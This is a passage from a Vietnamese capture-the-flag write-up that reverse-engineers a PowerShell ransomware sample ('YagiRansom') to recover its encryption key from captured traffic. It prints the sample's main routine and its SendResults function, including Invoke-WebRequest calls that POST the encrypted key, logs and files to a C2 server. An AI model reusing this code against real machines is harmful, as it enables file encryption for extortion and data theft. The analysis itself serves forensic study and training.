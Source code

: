 * Dòng đầu tiên sẽ gửi yêu cầu tới `url` bằng `HTTP GET` và không hiển thị ra kết quả.
* Tiếp theo sẽ đọc `logs` ra và tìm chuỗi `"No files have been encrypted!"` 
* Tìm tất cả các tệp bị mã hóa tức là có `extention` là `.enc` , loại bỏ thư mục, lấy đường dẫn đầy đủ , lấy mỗi tên tệp, mã hóa nội dung tệp bằng lệnh `$B64file = R64Encoder -f $i` , mã hóa tên tệp bằng lệnh `$B64Name = R64Encoder -t $Pfile` . Sau đó gửi nội dung tệp bị mã hóa đến `url` qua `HTTP POST` với `format` `"$7CiB$UFX/files/$B64Name"` . Nếu k có tệp bị mã hóa sẽ gửi đi một yêu cầu POST khác, với tên tệp là `"none.null"` đã được mã hóa `base64`

Mô tả chung 
```
Hàm có tác dụng mã hóa tên file và nội dung theo thuật toán của "function R64Encoder" và sau đó gửi đi "url" bằng "HTTP POST"
```

6.Và hàm `main` ở cuối.
```python=
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```

Chức năng chính của hàm main là 
* Tạo khóa `$WiETm` 
* Mã hóa các tệp `EncryptFiles` 
* Cuối cùng là dùng hàm `ExfiltrateFiles` để lọc và gưir dữ liệu đi.

### Giải quyết 
Nói chung thì chương trình sẽ tạo khóa ngẫu nhiên và mã hóa file, sau đó sẽ lọc và gửi lên `url`

Hiện tại từ hàm `main` và truy xuất từ các hàm trước chúng ta sẽ có thể tìm `key` ngược lại tiến trình. Ta có `key` chính là biến `$WiETm` gồm chữ [a-z][A-Z][0-9] và random 24 kí tự (đừng nghĩ bruteforce vì đến chết cũng chưa ra :>>>).

* Có 1 mẹo nhỏ là toi đã lưu code vào docs để tiện `ctrl + F`
Ta hãy tìm thử khóa `$WiETm` nào. Hmmmm, có thể ta có thể tìm ngược lại từ hàm `function SendResults` 
```python=
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7Ci	B`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
Từ đây ta thấy khóa `$WiETm` chính là `plaintext` ban đầu của cội nguồn. Nó bị mã hóa và tạo ra `$cvf` mà `$cvf` lại bị mã hóa thành `$cVl` mà `$cVl` lại nằm trong `$2YngY` và lại bị mã hóa thành `$XoX` mà `$XoX` được gửi tới `HTTP POST` của `url` và tại `$UFX/data` , tới đây mò `trafic.pcapng` thôi :))
